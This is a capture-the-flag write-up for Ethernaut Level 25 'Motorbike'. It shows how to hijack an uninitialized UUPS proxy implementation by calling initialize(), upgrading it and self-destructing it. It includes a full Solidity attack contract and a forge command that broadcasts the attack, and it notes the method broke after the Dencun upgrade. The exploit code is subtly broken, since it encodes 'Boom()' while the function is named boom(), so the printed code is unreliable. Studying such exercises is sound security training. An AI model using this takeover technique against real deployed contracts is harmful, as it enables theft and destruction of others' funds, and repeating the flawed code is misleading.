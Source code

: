 <div align="center">
<p align="left">(<a href="https://github.com/Pedrojok01/Ethernaut-Solutions?tab=readme-ov-file#solutions">back</a>)</p>

<img src="../assets/levels/25-motorbike.webp" width="600px"/>
<br><br>
<h1><strong>Ethernaut Level 25 - Motorbike</strong></h1>

</div>

## Table of Contents

- [Table of Contents](#table-of-contents)
- [Objectif](#objectif)
- [The hack](#the-hack)
  - [Dencun upgrade (Feb 2024)](#dencun-upgrade-feb-2024)
  - [Old solution](#old-solution)
- [Solution](#solution)
- [Takeaway](#takeaway)

## Objectif

<img src="../assets/requirements/25-motorbike-requirements.webp" width="800px"/>

## The hack

### Dencun upgrade (Feb 2024)

NOTE: The "old" solution for this challenge is not working anymore since the Dencun upgrade. The issue comes from the new behavior of the `selfdestruct` opcode which doesn't remove the contract's bytecode unless the contract is created AND self-destructed in the same transaction. See [EIP6780](https://eips.ethereum.org/EIPS/eip-6780).

> <i>Contract Self Destructed, but was later reinitalized with new ByteCode</i>

However, according to this github thread, it seems that it is still doable:
https://github.com/OpenZeppelin/ethernaut/issues/701

I will update if I crack it. For information purposes, I have kept the old solution below.

### Old solution

In order to self-destruct the `Engine` contract, we need to upgrade it to a new implementation since there is no `selfdestruct()` in this one. We can call the `upgradeToAndCall()` function for that, but we first need to become the `upgrader` inside the `Engine` contract to pass the `_authorizeUpgrade()` access check.

```javascript
function _authorizeUpgrade() internal view {
    require(msg.sender == upgrader, "Can't upgrade");
}
```

There is no way to do that by calling the Motorbike contract directly. But, we see that the Motorbike contract is using a delegatecall to initialize the Engine contract. This means that, as far as the Engine knows, `Engine::upgrader` hasn't been set yet (still `address(0)`), so we can call the `initialize()` function from our exploit contract directly.

Let's get the current Engine implementation address:

- In your Ethernaut browser console:

```javascript
await web3.eth.getStorageAt(
  instance,
  "0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc"
  // => 0x000000000000000000000000239bcf976042946e51690c2de9fea5d017eb282c
  // => 0x239bcf976042946e51690c2de9fea5d017eb282c
);
```

- In Foundry using `forge`:

```java
address engine = address(
            uint160(
                uint256(
                    vm.load(
                        motorbikeInstance,
                        0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc
                    )
                )
            )
        );
```

Then, we can upgrade the Engine contract to a new implementation address with the `upgradeToAndCall()` function and call the `boom()` function to self-destruct it.

## Solution

Let's implement the code accordingly:

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

interface IEngine {
    function initialize() external;

    function upgradeToAndCall(
        address newImplementation,
        bytes memory data
    ) external payable;
}

contract Bicycle {
    IEngine private immutable engine;

    constructor(address _engine) {
        engine = IEngine(_engine);
    }

    function attack() public {
        // 1. Initialize the engine contract
        engine.initialize();
        // 2. Upgrade the engine contract to a new implementation and kill it
        engine.upgradeToAndCall(
            address(this),
            abi.encodeWithSignature("Boom()")
        );
    }

    function boom() external {
        selfdestruct(payable(msg.sender));
    }
}
```

You can run the script with the following command:

```bash
forge script script/25_Motorbike.s.sol:PoC --rpc-url sepolia --broadcast --verify --etherscan-api-key $ETHERSCAN_API_KEY --watch
```

## Takeaway

- UUPS Proxies are better than the older EIP-1967 proxies but still need to be carefully implemented.
- Sensitive functions such as contract upgrades should be protected by access control.

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
